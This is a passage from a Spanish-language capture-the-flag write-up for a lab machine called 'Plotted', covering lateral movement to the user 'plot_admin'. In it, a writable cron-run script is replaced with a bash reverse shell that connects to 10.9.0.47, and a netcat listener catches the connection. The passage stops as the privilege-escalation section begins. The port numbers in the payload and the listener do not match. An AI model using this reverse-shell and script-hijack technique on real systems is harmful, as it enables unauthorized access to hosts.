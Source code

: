     ![Untitled](Plotted%20-%20Easy%20f9aede33d2cd40dfa9c01fc0d009e1ff/Untitled%2020.png)
    
- Nos dirigimos a la ruta del script que puede ser ejecutado por el usuario “plot_admin” y listamos los permisos,

![Untitled](Plotted%20-%20Easy%20f9aede33d2cd40dfa9c01fc0d009e1ff/Untitled%2021.png)

- Examinamos el script y evidenciamos que este permite modificar y ejecutar sin restricción, procedemos a eliminar el archivo y crear uno con nuestro propio contenido.

```
rm backup-sh
```

![Untitled](Plotted%20-%20Easy%20f9aede33d2cd40dfa9c01fc0d009e1ff/Untitled%2022.png)

- Ejecutamos el siguiente comando para crear de nuevo el script backup.sh

```bash
printf '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/10.9.0.47/44444 0>&1"' > backup.sh
```

![Untitled](Plotted%20-%20Easy%20f9aede33d2cd40dfa9c01fc0d009e1ff/Untitled%2023.png)

- Procedemos a conceder permisos de ejecucuón al script creado:

```bash
chmod +x backup.sh
```

- Lo ejecutamos con el siguiente comando:

```bash
date
```

![Untitled](Plotted%20-%20Easy%20f9aede33d2cd40dfa9c01fc0d009e1ff/Untitled%2024.png)

- Nos ponemos por escucha en el puerto “4444” previamente configurado y luego de pasado un minuto ganamos acceso como el usuario “plot_admin”

```bash
nc -nlvp 4444
```

![Untitled](Plotted%20-%20Easy%20f9aede33d2cd40dfa9c01fc0d009e1ff/Untitled%2025.png)

- En este punto tenemos acceso a la flag de usuario:

![Untitled](Plotted%20-%20Easy%20f9aede33d2cd40dfa9c01fc0d009e1ff/Untitled%2026.png)

---

## Escalada de privilegios

- Analizamos los binarios que el usuario “plot_admin” puede ejecutar, con el siguiente comando,
